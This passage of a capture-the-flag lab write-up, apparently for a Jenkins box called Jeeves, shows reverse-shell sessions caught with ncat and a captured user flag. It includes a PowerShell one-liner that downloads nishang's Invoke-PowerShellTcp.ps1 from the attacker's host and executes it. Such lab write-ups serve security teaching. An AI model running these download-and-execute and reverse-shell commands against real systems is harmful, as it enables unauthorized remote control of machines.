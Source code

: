 ```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49676.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>
```

At this point, I was running commands as the `kohsuke` user and grabbed the `user.txt` flag:

```
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49679.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>cd C:\
C:\>type c:\Users\kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```

### Upgrading the Reverse Shell

At this point, I upgraded my `cmd.exe` session to a powershell session by using the `Invoke-PowerShellTcp.ps1` script from the [nishang](https://github.com/samratashok/nishang) PowerShell post-exploitation framework to get a netcat PowerShell reverse shell session.

The command below invokes PowerShell to download the `Invoke-PowerShellTcp.ps1` script from a web server on my Kali machine and execute it:

```dos
powershell -Command "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')"
```

```
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49681.
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\>
```
